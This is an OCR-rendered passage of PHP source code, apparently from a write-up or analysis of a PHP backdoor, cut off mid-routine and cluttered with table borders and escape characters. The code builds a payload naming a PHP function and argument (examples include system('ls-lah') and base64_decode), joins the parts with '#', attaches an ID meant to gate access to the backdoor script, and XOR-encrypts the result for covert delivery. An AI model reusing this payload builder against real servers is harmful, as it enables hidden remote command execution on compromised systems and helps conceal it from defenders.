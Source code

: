 +-----------------------------------------------------------------------+
| // Builds the payload, 3 examples, only 1st one is used\              |
| \$payload = \[\                                                       |
| // base64\_decode(\"echo \\\"Hi\\\"; \")\                             |
| \"unknwown\",\                                                        |
| \"base64\_decode\",\                                                  |
| base64\_encode(\"echo \\\"Hi\\\"; \"),\                               |
| \                                                                     |
| // system(\'ls-lah\')\                                                |
| \"unknwown\",\                                                        |
| \"system\",\                                                          |
| \"\'ls-lah\'\",\                                                      |
|                                                                       |
| \"unknwown\",// \[0\] Does not seem to be used, but could be to       |
| prevent accidentally processing \"normal\" parameters containing      |
| \"\#\"\                                                               |
| \"function\_name\",// \[1\] Function name\                            |
| \"function\_param\",// \[2\] Function param\                          |
| \];\                                                                  |
| \                                                                     |
| // Convert payload to string, separating entries by \"\#\"\           |
| \$payload = implode(\"\#\", \$payload);\                              |
| \                                                                     |
| // Set a key name for the payload, used when delivering the payload   |
| to the target\                                                        |
| \$payloadKeyName = \"payload\";\                                      |
| \                                                                     |
| // Set ID, used for either specific targets or as an access           |
| prevention to the specific backdoor script\                           |
| \$ID = \"e91bf67d-7f2b-42ff-86d5-3aa51a75f2e9\";\                     |
| \                                                                     |
| // Create repeating XOR cipher key from (\$payloadKeyName & \$ID)\    |
| \$xorKey = str\_repeat(\$payloadKeyName . \$ID, (strlen(\$payload) /  |
| strlen(\$payloadKeyName)) + 1);\                                      |
| \                                                                     |
| // XOR cipher the \$payload using the \$xorKey\                       |
| \$pXOR = \$payload \^ \$xorKey;\                                      |
| \                                                                     |
